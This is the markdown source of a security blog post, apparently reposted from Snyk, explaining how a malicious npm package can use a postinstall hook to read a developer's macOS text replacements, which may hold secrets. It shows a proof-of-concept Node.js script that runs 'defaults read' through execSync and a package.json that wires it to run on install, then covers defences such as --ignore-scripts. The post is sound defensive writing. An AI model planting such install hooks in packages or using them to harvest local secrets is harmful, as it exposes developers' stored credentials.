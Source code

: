 ```yaml
---
title: 'Using insecure npm package manager defaults to steal your macOS keyboard shortcuts'
description: >-
  Description
type: Blog
date: '2023-06-28'
tag: tags/security.mdx
status: published
canonical_url: 'https://snyk.io/blog/using-insecure-npm-package-manager-defaults/'
---
```


> This article is originally available at [Snyk.io][snyk-blog].

Malicious npm packages and their dangers have been a frequent topic of discussion — whether
it’s [hundreds of command-and-control Cobalt Strike malware packages][cobalt-strike],
[typosquatting][typosquatting], or general malware published to the npm registry
(including PyPI and others). To help developers and maintainers defend against these security
risks, [Snyk published a guide to npm security best practices][snyk-best-practices].

All that said, the following attack scope, which Yagiz Nizipli alerted long-time maintainers to,
and the real-world risk related to data compromise are a great example of how important it is to
minimize the risks of arbitrary command execution with package managers, such as those employed
via npm’s postinstall lifecycle hooks.

## Life cycle scripts of npm

Node Package Manager (npm) provides a set of scripts for developers and package maintainers to
maintain the life cycle events of a package. These scripts provide significant value to
developers by enabling them to perform various tasks or configurations as part of the package
installation process. For example, with `postinstall` scripts, developers can automate tasks such
as building assets, setting up environment variables, running migrations, or any tasks that can
be automatically executed.

The `scripts` property of a `package.json` file defines the commands triggered by the package's
lifecycle and the dependent of the package you're developing. As of today, `npm` supports
a limited number of life cycle scripts in any scripts property of a package.json file.

For simplicity, the rest of this article will focus on the `postinstall` command. However, all concepts provided by this article also apply to other life cycle operations.

## Past security incidents

There have been several high-profile incidents that had a real-world impact on JavaScript developers, including:

- The [cross-env][https://iamakulov.com/notes/npm-malicious-packages/] security incident discovered by Oscar Bolmsten.
- The [eslint-scope security compromise][https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes/].
- The [event-stream spear-headed attack][https://snyk.io/blog/a-post-mortem-of-the-malicious-event-stream-backdoor/] on cryptocurrency application developers.

Many other JavaScript and Node.js security incidents are curated on the
[Awesome Node.js Security repository][awesome-nodejs-security].

## Data-at-rest Security

Security professionals identify the protection of assets when the data is stored or at rest by
`Data-at-rest`, as opposed to when it is in transit or being processed. It focuses on protecting
the sensitive information stored in databases, file systems, or persistent storage. Data-at-rest
security aims to prevent unauthorized access, disclosure, or data tampering while it is dormant.
Various measures are available to ensure data-at-rest security, such as:

- **On-demand decryption**: Decrypting only the data required to perform the current task and storing the rest of the data encrypted to prevent forbidden access.
- **Access control logic**: Validating the requester's identity through a mechanism such as a password, two-factor authentication, or biometrics provided by an operating system (such as FaceID) — making it possible to limit the exposure of the resource to unwanted people.

### Attack surface of a developer

Industry best practices force us to use and follow principles to develop applications. These best practices offer many advantages when working with different teams and developers but also increase the attack surface.

What sort of data is lying around unencrypted in a developer machine?

- Environment variables through plain text files, such as .env (available for consumption through the dotenv package).
- Configuration files for projects stored as a JSON file, such as config.json.
- SSH keys for accessing Github/Gitlab, which are available in the ~/.ssh folder.
- And... **macOS Keyboard Shortcuts**!

## macOS Text Replacements

macOS, by default, has a feature called `Text Replacements` hidden inside the system preferences
applications. This feature allows users to quickly replace a word with another word. Just
recently, I've learned that a developer from a well-known company was using text replacements
to replace `@card` keyword with their credit card information. Even though the credit card number
without the expiration date or CVV does not expose your money to outsiders, it adds an attack
surface for them to exploit.

![macOS Text Replacements](/content/macos-text-replacements.png)

> Text Replacements feature is available through System Preferences application, under the `Keyboard` menu item. 

## Exfiltrating keyboard text replacements 

Keyboard shortcuts are stored under `defaults`, which corresponds to a filesystem backed `.plist`
file somewhere in your local folder. Executing the following command will return your configured
text replacements, which are also available through the System Preferences application.

Remember that the following code does not require `sudo` access and can be executed by any
process in your computer.

```bash title="Reading text replacements"
> defaults read -g NSUserDictionaryReplacementItems
(
  {
    on = 1;
    replace = "@ssh-key";
    with = "my-secret-password";
  }
)
```

The same command can be executed through `execSync` in Node.js, and parsed without any hassle,
through the `postinstall` life cycle operation supported by the `npm` package manager.

The following is an example of a Node.js script that can be employed by malicious actors to
access macOS text replacements and exfiltrate sensitive data:

```js title="Retrieve text replacements"
import { execSync } from 'node:child_process'

const decoder = new TextDecoder()
const res = execSync('defaults read -g NSUserDictionaryReplacementItems')
const text_replacements = decoder.decode(res)

console.log(text_replacements)
```

To make sure the above code runs when this package is installed, we will update the package
manifest file as follows `package.json`:

```json title="Exploiting the postinstall command"
{
  "name": "my-useful-library",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "type": "module",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "postinstall": "node ./retrieve.js"
  },
  "keywords": [],
  "author": "",
  "license": "ISC"
}
```

When distributed through npm, and downloaded by a developer, this library will directly execute
our custom script to retrieve and process the keyboard replacements. If you aren’t careful,
it's easy to miss the line containing > node ./retrieve.js.

```bash title="NPM install flow"
➜  vulnerable npm i

> my-useful-library@1.0.0 postinstall
> node ./retrieve.js

up to date, audited 1 package in 192ms

found 0 vulnerabilities
➜  vulnerable
```

## Protection

What can you do as a developer to mitigate the security risks of malicious npm packages and
general security concerns of arbitrary command execution from packages in your dependency tree?

### Ignore scripts on npm package installations

Protecting yourself from packages that leverage `postinstall` scripts is possible. npm
provides `--ignore-scripts` configuration when installing packages.

```bash title="Ignore all scripts"
➜  npm i --ignore-scripts
up to date, audited 1 package in 124ms
found 0 vulnerabilities
```

### Use safe npm defaults

NPM has a configuration file called [.npmrc](npmrc-documentation). You can change the default
preferences using the `npm` CLI to ensure secure defaults:

```bash title="Ignore all scripts by default"
➜  npm config set ignore-scripts true
➜  npm i
up to date, audited 1 package in 126ms
found 0 vulnerabilities
```

### Secure storage

Most importantly, you should never store sensitive information in plain text. If you have to
store it in plain text due to other requirements, you should always make the resource
accessible through multi-factor authentication.

---

**Note**: Originally, I've written this article on [Snyk blog][snyk-blog] published by Liran Tal.

[awesome-nodejs-security]: https://github.com/lirantal/awesome-nodejs-security
[cobalt-strike]: https://snyk.io/blog/snyk-200-malicious-npm-packages-cobalt-strike-dependency-confusion-attacks/
[typosquatting]: https://snyk.io/blog/typosquatting-attacks/
[snyk-best-practices]: https://snyk.io/blog/ten-npm-security-best-practices/
[npm-scripts-documentation]: https://docs.npmjs.com/cli/v9/using-npm/scripts
[npmrc-documentation]: https://docs.npmjs.com/cli/v9/configuring-npm/npmrc
[snyk-blog]: https://snyk.io/blog/using-insecure-npm-package-manager-defaults/
